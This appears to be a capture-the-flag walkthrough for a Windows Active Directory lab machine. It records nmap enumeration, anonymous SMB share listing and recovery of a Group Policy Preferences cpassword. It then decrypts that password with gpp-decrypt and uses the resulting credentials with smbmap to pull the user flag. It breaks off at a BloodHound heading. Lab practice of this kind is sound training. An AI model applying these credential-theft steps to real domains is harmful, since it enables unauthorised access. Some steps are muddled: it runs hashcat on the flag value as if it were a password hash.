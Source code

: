## **Box Info::**
OS: Windows \
IP: 10.10.10.100

## **Skills learned::**
Windows
Active Directory
Kerberoasting
Powershell

### **Enumeratiion::**
nmap -p- -A -oN (-f to bypass FW) Activeports.txt ${IP}
dnsrecon -d 10.10.10.100 -r 10.0.0.0/8
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
#find all nmap scripts to enum smb

```
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-25 01:07:00Z) #Make sure attack box is within 1min of this time.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? *** Nice target to try first ***
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
Host script results:
|_clock-skew: 23m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-25T01:07:55
|_  start_date: 2021-12-25T01:04:50

```

### **OSINT::**
+ https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage

### **Part 1::**
```
smbclient -L \\\\Active\\                                                                             1 ⨯
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
        
smbclient \\\\Active\\Replication
      smb: \active.htb\Policies\> ls
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sat Jul 21 06:37:44 2018
      {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sat Jul 21 06:37:44 2018
      
 smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> more Groups.xml
      <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

  smb: prompt off
  smb: recurse on
  smb: mget *
```
# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ :: GPPstillStandingStrong2k18

**Creds::**
active.htb/svc_tgs:GPPstillStandingStrong2k18

enum4linux <ip> # gives smb share login access.
smbmap -H <ip> # lists shares
smbmap -R <share name> -H <ip> -A <file> -q #quiet

GetADUsers.py -all active.htb/svc_tgs -dc-ip <ip>

Try smbmap again::
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip>
:: Now READ ONLY access to NETLOGON,Replication,SYSVOL,Users
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip> -R Users #recursively list files in Users smb share
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt -q
cat user.txt :: 86d67d8ba232bb6a254aa4d10159e983 >hashsmb.txt
hashcat hashsmb.txt /usr/share/wordlist/rockyou.txt

**Part II: Bloodhound::**